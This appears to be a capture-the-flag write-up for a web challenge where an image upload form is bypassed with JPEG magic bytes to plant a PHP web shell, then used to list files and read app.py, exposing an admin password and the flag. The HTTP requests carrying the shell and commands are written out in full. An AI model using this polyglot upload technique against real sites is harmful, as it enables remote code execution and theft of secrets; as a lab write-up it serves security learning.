 ![](../img/TPG.png)


# Information gathering

Entering the page the user is presented with a choice "Upload your artwork" or Browse the gallery.  
![](../img/TPG_First.png)


Entering the gallery the user is presented with multiple images with random names.  
![](../img/TPG_Gallery.png)


Uploading an image the apps adds random string of characters in front of the original name of the file when uploading.

Using the upload form to upload a image gives the redirects the user to the gallery page.  
![](../img/TPG_Upload.png)
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGAAHlBuhSrUytxWA
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryGAAHlBuhSrUytxWA
Content-Disposition: form-data; name="image"; filename="georgie_pose.jpg"
Content-Type: image/jpeg



[...]
```


So to find the upload images the user need to browse the gallery or enter the ```/uploads``` endpoint to find the last uploaded image.  
![](../img/TPG_Uploads.png)


From here it's possible to access a image directly.  
![](../img/TPG_Georgie.png)


Trying to upload a new image with the same name but containing a simple webshell written in PHP an error is returned.  
```http
HTTP/1.1 200 OK
[...]
        <section class="main-content">
            <h2>Contribute to the Royal Archive</h2>
            
            
                
                    <div class="messages">
                        
                            <div class="message">File does not appear to be a valid image</div>
                        
                    </div>
[...]
```


But using a file signature or "magic bytes" it's possible to bypass this validation on the backend.  
https://en.wikipedia.org/wiki/List_of_file_signatures  
```http
POST /upload HTTP/1.1
Host: 134.122.88.8:5005
Content-Length: 31291
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://134.122.88.8:5005
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJfHPOnzvhptO9nuH
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://134.122.88.8:5005/upload
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryJfHPOnzvhptO9nuH
Content-Disposition: form-data; name="image"; filename="test_shell_data.php.jpg"
Content-Type: image/jpeg

ÿØÿà JFIF 

<?php echo system($_GET['command']); ?>
------WebKitFormBoundaryJfHPOnzvhptO9nuH--
```

Accessing the newly uploaded "image" an error message occurs that tells the attacker that the script is executed.  
![](../img/TPG_Accessing_web_shell.png)


# Attack
Adding the query string to the script endpoint (```command```) it's possible to execute commands on the server.  
Requesting ```ls ..``` to list content from the parent folder.  
```http
GET /uploads/c074188ba97ebf54_test_shell_data.php.jpg/?command=ls%20.. HTTP/1.1
Host: 134.122.88.8:5005
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkltYWdlIHVwbG9hZGVkIHN1Y2Nlc3NmdWxseSEgVmlldyBpdCBpbiB0aGUgZ2FsbGVyeS4iXX1dfQ.aBeWfg.d22GsPv3qqc09pG-FnFEJBeeQiE
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:35:53 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 122

ÿØÿà JFIF 

Dockerfile
app.py
backup.bak
docker-compose.yml
requirements.txt
start.sh
static
templates
uploads
uploads
```

Adding ```cat app.py``` to the query.
```http
HTTP/1.1 200 OK
Date: Thu, 01 May 2025 08:41:37 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Vary: Accept-Encoding
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 4245

ÿØÿà JFIF 

from flask import Flask, render_template, request, redirect, url_for, flash, send_from_directory, session
import os
import imghdr
import secrets
from werkzeug.utils import secure_filename

app = Flask(__name__)
app.config['SECRET_KEY'] = secrets.token_hex(16)
app.config['UPLOAD_FOLDER'] = 'uploads'
app.config['MAX_CONTENT_LENGTH'] = 2 * 1024 * 1024  # 2MB max size
app.config['ADMIN_PASSWORD'] = 'Anubis_Guardian_1337'  # For admin section
app.config['FLAG'] = 'O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}'
```

```Flag: O24{Th3_Phar40h_Kn0ws_Y0ur_P0lygl0t_Tr1cks}```